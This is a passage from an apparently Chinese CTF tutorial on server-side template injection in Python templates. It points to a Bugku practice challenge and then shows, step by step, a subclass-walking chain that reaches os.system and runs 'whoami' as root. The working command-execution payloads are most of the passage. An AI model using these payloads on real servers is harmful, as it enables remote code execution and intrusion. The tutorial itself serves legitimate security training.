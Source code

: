 4.说是从**相对路径**，更不如说是已知了一些框架存在一些固有类（这就不用从 object 这种基类开始一步一步找了，而这些固有类其实每个框架都不太一样），其实我博客里面那篇 Flaskapp，在里面就先给大家演示了先用\{\{config\}\}（这个 config 其实就算是一些框架配置，一般都会有）去找一些方法，但是确实是没找到有用的，然后才继续用绝对路径去找的；这里再给大家说一个，在 Java 里面一个框架模板，经过查阅文档得知，有一个内置的模板标签 debug，可以显示调试信息，于是......

![](image-16.png)

这里面也有很多有用的方法

这里的话，我也是费劲心思给大家找了一道可以用相对路径去解出的题目，就当给大家练练手了，题目如下，靶场的话是在 bugku 里面，冲个 1 块钱就能玩玩了

```
Bugku Simple_SSTI_2
```

5.当学完这些的话就已经差不多了，以后碰到这种 SSTI 就不用那么害怕辣，当然我还会教一下更加骚的一些操作

**如难**：这一部分的话，就给大家看看怎么编写一些自动化搜索工具，不能每回碰到这个都要在\[\]这个框框里面试吧？

1.现在看到这里，大家估计都明白了 payload 千变万化，但思路都一样滴！只要获取到 object 对象（当然这是绝对路径寻找法，也是最保险的方法），然后选一个能执行命令的模块，调用即可，比如 eval，os 等，都可以，所以我们就从结果出发去寻找怎么去获取这个结果

2.这里可以用手工寻找，给大家举个例子吧，一般的话我们可以利用 warnings.catch_warnings 进行命令执行（因为里面有好多有用的类和方法），所以咱们现在来找一下它在哪里（用到一个 index 方法，因为基本每一个类都会有这个方法，就是查索引用的）

查看`warnings.catch_warnings`方法的位置

```
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
59
```

查看`linecatch`的位置

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
25
```

查找`os`模块的位置

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
12
```

查找`system`方法的位置(在这里使用`os.open().read()`可以实现一样的效果,步骤一样,不再复述)

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
144
```

调用`system`方法

```
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
root
0
```
